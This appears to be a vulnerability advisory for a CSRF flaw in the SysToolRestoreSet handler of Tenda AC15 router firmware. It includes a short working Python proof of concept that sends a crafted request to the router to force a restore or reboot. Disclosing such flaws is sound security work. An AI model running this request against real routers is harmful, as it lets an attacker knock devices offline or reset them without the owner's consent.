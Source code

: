 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi has a Cross Site Request Forgery (CSRF) vulnerability located in the `fromSysToolRestoreSet` function. It allows remote attackers to reboot the device and cause denial of service.

![image-20240316182517935](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316182517935.png)

![image-20240316182541889](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316182541889.png)

## PoC

```python
import requests

url = "http://192.168.84.101/goform/SysToolRestoreSet"

headers = {
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Cookie': 'bLanguage=cn; user=; password=yhryhr',
    'Connection': 'close'
}

response = requests.get(url, headers=headers)
print(response.text)
```

![image-20240316182416080](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316182416080.png)